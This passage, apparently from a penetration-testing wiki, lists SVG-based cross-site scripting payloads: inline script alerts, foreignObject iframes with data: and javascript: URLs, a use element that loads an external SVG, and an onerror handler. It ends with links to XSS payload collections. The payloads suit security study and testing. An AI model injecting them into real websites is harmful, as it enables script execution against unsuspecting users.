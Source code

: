 ```markup
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

```svg
<svg width="500" height="500"
  xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>

  <foreignObject width="500" height="500">
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
     <iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
  </foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x"/></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```

Find **more SVG payloads in** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Misc JS Tricks & Relevant Info

{% content-ref url="other-js-tricks.md" %}
[other-js-tricks.md](other-js-tricks.md)
{% endcontent-ref %}

## XSS resources

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
* [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
* [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
* [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
* [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

